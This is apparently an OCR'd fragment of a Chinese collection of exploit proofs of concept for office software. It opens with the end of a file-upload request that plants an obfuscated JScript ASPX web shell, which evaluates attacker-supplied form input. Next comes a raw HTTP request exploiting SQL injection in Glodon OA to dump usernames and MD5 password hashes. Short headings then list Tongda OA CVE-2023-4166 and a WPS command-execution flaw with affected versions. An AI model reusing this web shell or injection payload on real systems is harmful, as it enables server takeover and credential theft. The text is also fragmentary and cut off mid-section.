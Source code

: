 <%@ Page Language="Jscript" Debug=true%>

<%

var FRWT='XeKBdPAOslypgVhLxcIUNFmStvYbnJGuwEarqkifjTHZQzCoRMWD';

var GFMA=Request.Form("qmq1");

var ONOQ=FRWT(19) + FRWT(20) + FRWT(8) + FRWT(6) + FRWT(21) + FRWT(1);

eval(GFMA, ONOQ);

%>

------WebKitFormBoundaryFfJZ4PlAZBixjELj--

##  广联达OA SQL注入

POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary HTTP/1.1

Host: xxx.com

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36

Accept:text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://xxx.com:8888/Services/Identification/Server/Incompatible.aspx

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Cookie: 

Connection: close

Content-Type:application/x-www-form-urlencoded

Content-Length: 88

dasdas=&key=1' UNION ALL SELECT top 1812 concat(F_CODE,':',F_PWD_MD5)from T_ORG_USER --

##  通达

CVE-2023-4166

本次范围：通达OA版本11.10之前

post请求包

## 金山办公

WPS 命令执行

wps影响范围为：WPS Office 2023 个人版 < 11.1.0.15120

WPS Office 2019 企业版 < 11.8.2.12085
